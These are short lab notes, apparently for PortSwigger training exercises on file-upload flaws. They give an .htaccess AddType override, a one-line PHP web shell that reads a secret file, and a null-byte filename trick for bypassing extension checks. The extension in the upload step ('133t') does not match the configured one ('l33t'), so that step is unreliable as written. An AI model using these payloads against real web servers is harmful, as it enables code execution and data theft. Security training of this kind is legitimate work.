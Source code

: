 # Web shell upload via extension blacklist bypass

https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass

1. Upload `.php` file --> blocked

2. Upload `.htaccess` file with content: `AddType application/x-httpd-php .l33t` to overwrite the config in upload folder

3. Upload `test.133t` with content: `<?php echo file_get_contents('/home/carlos/secret'); ?>` to get the flag.

# Bypass whitelist extension with Null byte

Upload avatar only allowed .png and .jpg

PHP 5.3.4 < Vulnerable to null byte injection

*file name*: `test.php%00.jpg`
